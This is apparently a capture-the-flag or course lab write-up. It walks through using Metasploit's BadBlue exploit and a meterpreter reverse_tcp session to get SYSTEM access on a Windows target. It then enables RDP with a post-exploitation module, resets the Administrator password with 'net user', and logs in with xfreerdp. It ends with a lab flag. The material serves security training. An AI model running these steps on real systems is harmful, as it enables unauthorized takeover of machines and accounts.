 # Enabling RDP

+ The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.

+ RDP uses TCP port 3389 by default.

+ RDP is disabled by default, however, we can utilize an MSF exploit module to enable RDP on the Windows target and consequently utilize RDP to remotely access to the target system.

+ RDP authentication requires a legitimate user account on the target system as well as the user’s password in clear-text.

# Laboratory

- Start the postgresql server by running `service postgresql start`.

- Start the msfconsole and check the database status.

- Create a new workspace and import your nmap scan results. We can name it RDP for this example.

- Set globally the target IP with `setg RHOSTS $TARGET_IP`, do this for the RHOST option as well.

- We can start by using db_nmap to start scanning the target machine. Or you can import them from an external xlm nmap result file.

- Service: BadBlue 2.7. Exploit found: `exploit/windows/http/badblue_passthru`. Get access to the target machine with a meterpreter session. Set the meterpreter, reverse_tcp payload, to the x64 version for windows. Remember to set the target to the appropiate target version.

- Let's try local enumeration: `sysinfo`, `getuid`, `getprivs`. Consider the user you are currently logged in at, it should be NT AUTHORITY\SYSTEM.

- Now we will use the `post/windows/manage/enable_rdp` post exploitation module. Set the session to 1 and hit exploit. Confirm the succesful execution of the module by running a quick nmap scan `db_nmap -p 3389 $TARGET_IP`.

**Note**: In this case we are going to change the Administrator password to test the rdp connection. However, this is not a good idea as it is a clear sign of system compromise.

- From the meterpreter session pop a cmd prompt shell. Run `net user administrator hacker_123321` to change the password of the local administrator to hacker_123321.

- From another tab in the terminal, run xfreerdp `xfreerdp /u:administrator /p:hacker_123321 /v:$TARGET_IP`.

Flag: 763e1c86da26c66e86a8537fd343280d
